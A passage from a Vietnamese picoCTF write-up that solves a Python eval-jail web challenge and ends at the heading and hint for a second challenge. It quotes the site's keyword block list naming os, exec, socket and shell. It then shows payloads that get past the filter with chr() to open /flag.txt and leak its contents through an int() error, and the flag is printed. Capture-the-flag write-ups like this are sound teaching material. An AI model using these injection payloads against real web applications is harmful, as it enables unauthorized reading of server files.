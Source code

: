 ### Hints

Pyjail

### Solution

Challenge cho mình một trang web để tính toán 

![image](https://hackmd.io/_uploads/SkMMOdKj1l.png)

Ở đây web cấm gần hết các chữ dùng để eval lệnh python rồi 

![image](https://hackmd.io/_uploads/S1-BOuto1x.png)

```html
<!--
    TODO
    ------------
    Secure python_flask eval execution by 
        1.blocking malcious keyword like os,eval,exec,bind,connect,python,socket,ls,cat,shell,bind
        2.Implementing regex: r'0x[0-9A-Fa-f]+|\\u[0-9A-Fa-f]{4}|%[0-9A-Fa-f]{2}|\.[A-Za-z0-9]{1,3}\b|[\\\/]|\.\.'
-->
```

Nhưng có một lệnh mà web không cấm đó là open ở đây để bypass regex thì mình có thể sử dụng chr 

```python
open(chr(47)+"flag"+chr(46)+"txt")
```

Ok và mình đã thực hiện eval thành công nhưng chỉ in ra được object của open thôi 

![image](https://hackmd.io/_uploads/SyOxYOYsyl.png)

Để in ra giá trị thì mình có thể trigger một cái error bằng cách ép kiểu int cho flag và vì flag chỉ là một string nên nó sẽ lỗi

```python
int(*open(chr(47)+"flag"+chr(46)+"txt"))
```

Và từ đó mình có flag 

![image](https://hackmd.io/_uploads/HJoNFOYoyx.png)

`Flag: picoCTF{D0nt_Use_Unsecure_f@nctions6798a2d8}`

## web/WebSockFish

![image](https://hackmd.io/_uploads/BJy7j0521g.png)

### Hints

Websocket

